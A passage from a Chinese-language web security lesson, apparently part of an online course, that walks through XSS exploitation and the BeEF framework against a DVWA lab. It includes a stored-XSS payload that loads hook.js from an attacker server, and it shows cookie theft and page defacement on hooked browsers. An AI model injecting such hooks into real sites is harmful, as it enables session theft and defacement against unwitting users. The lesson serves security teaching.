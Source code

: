 </code></pre><p>这段负载也是JavaScript代码，它可以使得当前页面跳转到设置的目的地址，这就是跳转产生的原因。注意，这里同样是需要绕过输入长度的限制的哦。</p><p>这样，当我们访问被攻击的页面时，页面会自动跳转到攻击者设置的地址中，如果攻击者将这个地址伪造为被攻击的页面，那么很容易迷惑访问用户，使得用户认为这就是被攻击的页面，<strong>但事实上，用户已经落入到攻击者的圈套之中了。</strong></p><p>这就是用XSS实现欺骗跳转的方法。到这里，你已经学完了常见的XSS攻击利用方法，事实上，这就是一个任意JavaScript命令执行漏洞，我们只要更换不同的JavaScript语句，就可以实现这些攻击行为。</p><p>上述内容都是我们对XSS攻击的手动利用，接下来，让我们来学习一款XSS攻击自动利用神器——BeEF。</p><h2>BeEF的使用</h2><p>我们都知道Beef是牛肉的意思，这款名为BeEF的软件也是非常牛的。<strong>我们利用它可以进行各种各样的攻击操作，并且不需要我们手动进行一些负载的设计</strong>，下面让我们一起来学习它吧。</p><p>首先我们要来安装这款软件，我们可以在kali虚拟机中使用 <code>sudo apt install beef-xss</code> 进行BeEF的安装，如果失败，那么我们运行 <code>sudo apt-get update</code> 进行apt的更新，然后重新安装即可。</p><p>安装完成之后，我们就可以用命令 <code>sudo beef-xss</code> 来打开这个软件，可以看到它会自动弹出一个Web页面，这就是这个软件的用户界面。</p><p><img src="https://static001.geekbang.org/resource/image/24/f6/249dcae60e8805ba367d3a42674953f6.png?wh=1654x924" alt="图片"></p><p>我们选择DVWA的存储型XSS攻击来做测试，让你可以更好地理解这款工具。</p><p>那么在利用BeEF前，我们首先需要进行XSS攻击。</p><p><img src="https://static001.geekbang.org/resource/image/49/0c/4925d7a0991769d15fef32429f627d0c.png?wh=1886x676" alt="图片"></p><p>和之前我们手动攻击一样，需要在Message框内输入恶意负载，由于我们BeEF工具所在的服务器地址为192.168.3.101，所以我们将负载设置为：</p><pre><code class="language-javascript">&lt;script src="http://192.168.3.101:3000/hook.js"&gt;&lt;/script&gt;
</code></pre><p>这样，每当这个页面被访问时，都会触发我们注入的JavaScript代码，使得页面向我们的恶意服务器请求hook.js文件，其中你可以简单认为hook.js文件是BeEF的一个接口，之后我们在BeEF调用的命令都是通过这个接口来实现的。</p><p>完成了接口的设置之后，我们在BeEF的页面，可以看到BeEF中的Hooked Browsers一栏已经显示出被攻击的目标。</p><p><img src="https://static001.geekbang.org/resource/image/4c/a0/4c7c510c44a307501e38c531c7754ea0.png?wh=618x286" alt="图片"></p><p>这里192.168.3.124是我搭建的DVWA靶场的地址，代表的是被攻击服务器IP，而192.168.3.102代表的是访问被攻击服务器的用户机器的IP。我们点击Current Browser就可以进行我们想要的攻击行为啦。</p><p><img src="https://static001.geekbang.org/resource/image/yy/07/yy627d5fc5043a1bb1c872c62cb4aa07.png?wh=1715x803" alt="图片"></p><p>首先我们选中Commands这一栏，然后根据描述选择其中我们想要发起的攻击行为，例如：GET Cookie。</p><p><img src="https://static001.geekbang.org/resource/image/f8/88/f80162yy5bbdyy945c8cb34e9c678588.png?wh=1745x869" alt="图片"></p><p>可以看到我们已经获取到了cookie信息。<strong>这比我们手动去获取cookie简单很多。</strong></p><p>这就是BeEF的用法介绍，当然它具有很多有趣的攻击功能，下面我再介绍它的一个功能，那就是改变页面内容。</p><p><img src="https://static001.geekbang.org/resource/image/cb/53/cb1c8d8d6acd8db3257fbfaaa1e40853.png?wh=1692x599" alt="图片"></p><p>我们可以在Deface Content中对内容进行设置，然后点击执行按钮，可以发现我们的DVWA靶场已经变为了刚刚设计的内容。</p><p><img src="https://static001.geekbang.org/resource/image/a9/6c/a90ddb4fe7bcb4b944ec8336b3d4ce6c.png?wh=1196x669" alt="图片"></p><p>其实BeEF的非常强大，它具有几百个不同的攻击命令，你可以一一尝试它们。</p><h2>总结</h2><p>在这节课程中，我们可以感受到XSS攻击的可怕之处，并且清楚了它的危害性。</p><p>首先我们学习了对XSS攻击的手动利用，包括了盗取cookie、按键记录和钓鱼、广告植入以及欺骗跳转这些不同的攻击手段。但事实上，我们都是利用的JavaScript代码注入，页面中一切JavaScript代码可以实现的功能，我们都能实现。所以实现XSS攻击的能力，和JavaScript的掌握程度息息相关。</p><p>然后，我们学习了XSS攻击神器——BeEF，利用它我们不需要再亲自构造JavaScript代码，而是利用设计好的代码直接发起我们想要的攻击行为，这给我们带来了极大的便利。</p><h2>思考题</h2><p>除了这节课中提到的XSS攻击种类，你还能想到别的攻击种类吗？</p><p>欢迎在评论区留下你的思考。如果觉得今天的内容对你有所帮助的话，也欢迎你把课程分享给其他同事或朋友，我们共同学习进步！</p>